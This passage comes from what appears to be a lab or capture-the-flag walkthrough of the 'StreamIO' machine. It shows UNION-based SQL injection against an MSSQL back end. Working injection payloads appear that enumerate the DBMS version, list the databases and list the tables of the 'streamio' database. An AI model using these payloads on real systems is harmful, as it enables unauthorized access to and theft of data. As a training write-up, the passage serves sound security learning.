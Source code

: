 Now, we need to get some database information back. There is a handy [cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) that can help us with that. We will start by enumerating the DBMS[^12]'s version (Figure 15).

```sql
/* enumerate DBMS version */
q=anger1' UNION SELECT 1,@@version,3,4,5,6;--
```

<figure><img src="../../.gitbook/assets/streamio_db_version.png" alt=""><figcaption><p>Figure 15: Enumerating the version of the DBMS.</p></figcaption></figure>

This confirms our assumption, i.e., that we are dealing a MSSQL DBMS. We can continue by listing all DBMS's databases (Figure 16).

```sql
/* enumerate DBMS's databases */
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM master..sysdatabases--
```

<figure><img src="../../.gitbook/assets/steamio_databases.png" alt=""><figcaption><p>Figure 16: Listing the databases of the DBMS. </p></figcaption></figure>

There are only 2 non-default databases: `streamio` and `streamio_backup`. Let's see what tables are contained within the former (Figure 17).

```sql
/* enumerate database's tables */
q=anger1' UNION SELECT 1,CONCAT(name,':',id),3,4,5,6 FROM streamio..sysobjects--
```


[^1]: SQL Injection
[^2]: Brute Force Attack
[^3]: Local File Inclusion
[^4]: Structured Query Language Injection
[^5]: Brute Force Attack
[^6]: Local File Inclusion
[^7]: Elevation of Privileges
[^8]: Domain Controller
[^9]: Fully Qualified Domain Name
[^10]: Structured Query Language injection
[^11]: Web Application Firewall
[^12]: Database Management System
[^13]: Local File Inclusion
[^14]: Remote Code Execution
[^15]: Domain Controllers